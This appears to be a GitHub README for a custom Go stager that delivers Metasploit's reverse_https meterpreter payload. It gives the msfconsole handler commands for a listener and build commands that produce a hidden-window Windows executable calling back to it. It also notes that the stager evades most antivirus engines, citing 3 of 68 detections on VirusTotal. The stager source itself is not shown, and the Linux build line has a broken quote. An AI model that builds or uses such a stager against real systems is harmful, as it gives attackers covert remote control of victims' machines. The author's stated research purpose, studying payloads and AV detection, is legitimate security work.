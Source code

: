 **!!! This is for educational purposes only !!!** <br> **!!! Use this only where authorized !!!**

This is a custom stager written for Metasploit Framework's reverse_https meterpreter payload. I wrote this to get a better understanding of Metasploit Framework's payloads and how well antiviruses detect custom stagers.

# Launching a listener
Using the included `.rc` file launch msfconsole i.e. `msfconsole -f ./listener.rc`

Or run at least the following commands in msfconsole substituting your listening address and port number:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lport ENTERPORTNUMBERHERE
set lhost ENTERLISTENADDRESSHERE
run
```

# Compiling the payload
**Ensure you have changed the host and port variables in the msf_rev_https.go file.**

The following examples assume you have a shell open in the directory of the msf_rev_https.go file.

These will result in a `.exe` file that will call back to your msfconsole listener.
### Windows
    go build -ldflags "-H=windowsgui -w -s" -o newExecutable.exe . 
### Linux
    env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H=windowsgui -o newExecutable.exe .

# Detection
Custom payloads are difficult to detect, at the time of writing this payload was flagged by 3/68 antiviruses on VirusTotal. It is important to note that this is quite low, non-malicious executables are often flagged as well. I have linked below the results from my "newExecutable.exe", and one for putty.exe.

My Go reverse HTTPS meterpreter: https://www.virustotal.com/gui/file/26ac135ef4e7ed030186fc91338989bcbcebfc44c2cb54bc48ace9802097d51b/detection <br>
PuTTY v0.74: https://www.virustotal.com/gui/file/f032c50564a21c39a8c85873a4c96f09eb6398330c67291408497816401957f6/detection
